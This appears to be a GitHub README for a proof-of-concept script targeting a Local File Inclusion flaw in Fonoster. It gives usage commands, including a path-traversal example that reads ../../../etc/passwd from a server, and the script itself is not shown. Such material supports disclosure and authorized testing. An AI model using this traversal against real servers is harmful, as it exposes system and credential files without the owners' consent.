 # Fonoster LFI Proof of Concept

This repository contains a Proof of Concept (PoC) script demonstrating a Local File Inclusion vulnerability in Fonoster. **This tool is for educational and authorized testing purposes only.**

## Usage

### Read Local File
To retrieve a local file from the server:
```
python3 fonoster_lfi_poc.py --url <fonoster_server_url> --path <file_path_to_retrieve>
```

Example:

```
python3 fonoster_lfi_poc.py --url http://example.com --path "../../../etc/passwd"
```
